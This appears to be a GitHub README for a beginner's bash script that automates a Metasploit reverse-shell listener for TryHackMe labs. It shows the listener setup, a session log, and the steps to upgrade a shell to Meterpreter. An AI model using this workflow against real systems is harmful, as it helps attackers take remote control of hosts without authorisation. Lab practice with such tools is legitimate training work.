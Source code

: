 # akrech-reverse-shell-listener

██╗░░░██╗██████╗░░██████╗░██████╗░░█████╗░██████╗░███████╗  ██╗░░░██╗░█████╗░██╗░░░██╗██████╗░
██║░░░██║██╔══██╗██╔════╝░██╔══██╗██╔══██╗██╔══██╗██╔════╝  ╚██╗░██╔╝██╔══██╗██║░░░██║██╔══██╗
██║░░░██║██████╔╝██║░░██╗░██████╔╝███████║██║░░██║█████╗░░  ░╚████╔╝░██║░░██║██║░░░██║██████╔╝
██║░░░██║██╔═══╝░██║░░╚██╗██╔══██╗██╔══██║██║░░██║██╔══╝░░  ░░╚██╔╝░░██║░░██║██║░░░██║██╔══██╗
╚██████╔╝██║░░░░░╚██████╔╝██║░░██║██║░░██║██████╔╝███████╗  ░░░██║░░░╚█████╔╝╚██████╔╝██║░░██║
░╚═════╝░╚═╝░░░░░░╚═════╝░╚═╝░░╚═╝╚═╝░░╚═╝╚═════╝░╚══════╝  ░░░╚═╝░░░░╚════╝░░╚═════╝░╚═╝░░╚═╝

███╗░░██╗░█████╗░██████╗░███╗░░░███╗░█████╗░██╗░░░░░
████╗░██║██╔══██╗██╔══██╗████╗░████║██╔══██╗██║░░░░░
██╔██╗██║██║░░██║██████╔╝██╔████╔██║███████║██║░░░░░
██║╚████║██║░░██║██╔══██╗██║╚██╔╝██║██╔══██║██║░░░░░
██║░╚███║╚█████╔╝██║░░██║██║░╚═╝░██║██║░░██║███████╗
╚═╝░░╚══╝░╚════╝░╚═╝░░╚═╝╚═╝░░░░░╚═╝╚═╝░░╚═╝╚══════╝

██████╗░███████╗██╗░░░██╗███████╗██████╗░░██████╗███████╗░░░░░░░██████╗██╗░░██╗███████╗██╗░░░░░██╗░░░░░
██╔══██╗██╔════╝██║░░░██║██╔════╝██╔══██╗██╔════╝██╔════╝░░░░░░██╔════╝██║░░██║██╔════╝██║░░░░░██║░░░░░
██████╔╝█████╗░░╚██╗░██╔╝█████╗░░██████╔╝╚█████╗░█████╗░░█████╗╚█████╗░███████║█████╗░░██║░░░░░██║░░░░░
██╔══██╗██╔══╝░░░╚████╔╝░██╔══╝░░██╔══██╗░╚═══██╗██╔══╝░░╚════╝░╚═══██╗██╔══██║██╔══╝░░██║░░░░░██║░░░░░
██║░░██║███████╗░░╚██╔╝░░███████╗██║░░██║██████╔╝███████╗░░░░░░██████╔╝██║░░██║███████╗███████╗███████╗
╚═╝░░╚═╝╚══════╝░░░╚═╝░░░╚══════╝╚═╝░░╚═╝╚═════╝░╚══════╝░░░░░░╚═════╝░╚═╝░░╚═╝╚══════╝╚══════╝╚══════╝

████████╗░█████╗░  ███╗░░░███╗███████╗████████╗███████╗██████╗░██████╗░██████╗░███████╗████████╗███████╗██████╗░
╚══██╔══╝██╔══██╗  ████╗░████║██╔════╝╚══██╔══╝██╔════╝██╔══██╗██╔══██╗██╔══██╗██╔════╝╚══██╔══╝██╔════╝██╔══██╗
░░░██║░░░██║░░██║  ██╔████╔██║█████╗░░░░░██║░░░█████╗░░██████╔╝██████╔╝██████╔╝█████╗░░░░░██║░░░█████╗░░██████╔╝
░░░██║░░░██║░░██║  ██║╚██╔╝██║██╔══╝░░░░░██║░░░██╔══╝░░██╔══██╗██╔═══╝░██╔══██╗██╔══╝░░░░░██║░░░██╔══╝░░██╔══██╗
░░░██║░░░╚█████╔╝  ██║░╚═╝░██║███████╗░░░██║░░░███████╗██║░░██║██║░░░░░██║░░██║███████╗░░░██║░░░███████╗██║░░██║
░░░╚═╝░░░░╚════╝░  ╚═╝░░░░░╚═╝╚══════╝░░░╚═╝░░░╚══════╝╚═╝░░╚═╝╚═╝░░░░░╚═╝░░╚═╝╚══════╝░░░╚═╝░░░╚══════╝╚═╝░░╚═╝

░██████╗██╗░░██╗███████╗██╗░░░░░██╗░░░░░  ███████╗░█████╗░░██████╗██╗░░░██╗██╗░░░░░██╗░░░██╗
██╔════╝██║░░██║██╔════╝██║░░░░░██║░░░░░  ██╔════╝██╔══██╗██╔════╝╚██╗░██╔╝██║░░░░░╚██╗░██╔╝
╚█████╗░███████║█████╗░░██║░░░░░██║░░░░░  █████╗░░███████║╚█████╗░░╚████╔╝░██║░░░░░░╚████╔╝░
░╚═══██╗██╔══██║██╔══╝░░██║░░░░░██║░░░░░  ██╔══╝░░██╔══██║░╚═══██╗░░╚██╔╝░░██║░░░░░░░╚██╔╝░░
██████╔╝██║░░██║███████╗███████╗███████╗  ███████╗██║░░██║██████╔╝░░░██║░░░███████╗░░░██║░░░
╚═════╝░╚═╝░░╚═╝╚══════╝╚══════╝╚══════╝  ╚══════╝╚═╝░░╚═╝╚═════╝░░░░╚═╝░░░╚══════╝░░░╚═╝░░░


please read carefully, if you havn't any idea about "how to upgrade a normal reverse-shell to a meterpreter shell"



It's the first tool that I had made with bash scripting.
a very simple but useful(maybe) tool for tryhackme users.

#tested on kali-linux

#PROCESS
git clone https://github.com/a-k-r-e-c-h/akrech-rev-shell
$ cd akrech-rev-shell
$ chmod +x akrech.sh
$ ./akrech.sh

#use "nano akrech.sh" if you want's to change the exploit or the IP/network interface.

<----after getting a shell successfully--->
ENTER(1) --- "background"
ENTER(2) --- "sessioions -u 1"     <---I used (1) for session 1...else use your sessions id...view it by enter"sessions">

#wait a while
#if everything works fine...then you are gonna get a meterpreter session...check it by ENTER "sessions"

ENTER(3) --- sessions -i 2        <---you should get a meterpreter shell successfully--->

<<<<<<<----------------------------------------------------------------------->>>>>>>
█▀▀▄ █▀▀ █▀▄▀█ █▀▀█ 
█░░█ █▀▀ █░▀░█ █░░█ 
▀▀▀░ ▀▀▀ ▀░░░▀ ▀▀▀▀


┌──(root💀kali)-[/home/kali/akrech-rev-shell]
└─# ./akrech.sh   
 


░█████╗░██╗░░██╗██████╗░███████╗░█████╗░██╗░░██╗
██╔══██╗██║░██╔╝██╔══██╗██╔════╝██╔══██╗██║░░██║
███████║█████═╝░██████╔╝█████╗░░██║░░╚═╝███████║
██╔══██║██╔═██╗░██╔══██╗██╔══╝░░██║░░██╗██╔══██║
██║░░██║██║░╚██╗██║░░██║███████╗╚█████╔╝██║░░██║
╚═╝░░╚═╝╚═╝░░╚═╝╚═╝░░╚═╝╚══════╝░╚════╝░╚═╝░░╚═╝
 
                       git- a-k-r-e-c-h
                       mail- itz.a.k.r.e.c.h@gmail.com
                      
[*] Using configured payload generic/shell_reverse_tcp
lhost => tun0
lport => 4444
[*] Started reverse TCP handler on 10.8.217.33:4444 
[*] Command shell session 1 opened (10.8.217.33:4444 -> 10.8.217.33:39094) at 2021-09-07 13:35:34 -0400

background

Background session 1? [y/N]  y
msf6 exploit(multi/handler) > sessions

Active sessions
===============

  Id  Name  Type             Information  Connection
  --  ----  ----             -----------  ----------
  1         shell sparc/bsd               10.8.217.33:4444 -> 10.8.217.33:39094 (10.8.217.33)

msf6 exploit(multi/handler) > sessions -u 1
[*] Executing 'post/multi/manage/shell_to_meterpreter' on session(s): [1]

[*] Upgrading session ID: 1
[*] Starting exploit/multi/handler
[*] Started reverse TCP handler on 10.8.217.33:4433 
[*] Sending stage (984904 bytes) to 10.8.217.33
[*] Meterpreter session 2 opened (10.8.217.33:4433 -> 10.8.217.33:41528) at 2021-09-07 13:36:12 -0400
[*] Command stager progress: 100.00% (773/773 bytes)
msf6 exploit(multi/handler) > sessions -i 2
[*] Starting interaction with 2...

meterpreter > 



<<<<<<<------------------------------------------------------------------------->>>>>>

#akrech   ---a simple metasploit automated reverse-shell-listener tool written in bash.
#this tool is made for time saving & day-to-day usage.
#metasploit has must be installed to ran this script on your machine.
#found me on tweeter-- https://twitter.com/a_k_r_e_c_H
#download

#!/bin/bash

 
echo -e " \e[91m


░█████╗░██╗░░██╗██████╗░███████╗░█████╗░██╗░░██╗
██╔══██╗██║░██╔╝██╔══██╗██╔════╝██╔══██╗██║░░██║
███████║█████═╝░██████╔╝█████╗░░██║░░╚═╝███████║
██╔══██║██╔═██╗░██╔══██╗██╔══╝░░██║░░██╗██╔══██║
██║░░██║██║░╚██╗██║░░██║███████╗╚█████╔╝██║░░██║
╚═╝░░╚═╝╚═╝░░╚═╝╚═╝░░╚═╝╚══════╝░╚════╝░╚═╝░░╚═╝"
echo -e " \e[5m
                       git- a-k-r-e-c-h
                       mail- itz.a.k.r.e.c.h@gmail.com
                      "

msfconsole -q -x " use ```exploit/multi/handler```;    <---change this, if you wants to set another exploit--->
  set lhost ```tun0``` ;                               <---change this, if you wants to set another IP/network interface---> 
   set lport ```4444``` ;                              <---change this, if you wants to listen on another port--->
    exploit ;"
